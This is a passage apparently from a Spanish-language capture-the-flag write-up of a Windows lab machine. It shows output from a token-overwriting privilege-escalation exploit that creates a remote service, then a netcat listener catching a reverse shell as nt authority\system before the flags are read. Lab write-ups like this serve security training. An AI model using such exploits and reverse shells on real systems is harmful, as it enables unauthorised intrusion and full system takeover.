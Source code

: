 ```bash
userAndGroupsAddr: 0xe30540d0
overwriting token UserAndGroups
Opening SVCManager on 127.0.0.1.....
Creating service qgfA.....
Starting service qgfA.....
The NETBIOS connection with the remote host timed out.
Removing service qgfA.....
ServiceExec Error on: 127.0.0.1
nca_s_proto_error
Done
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.14] 1050
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\system

C:\WINDOWS\system32>
```

Ya con esto nos encontramos dentro de la máquina como el usuario `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
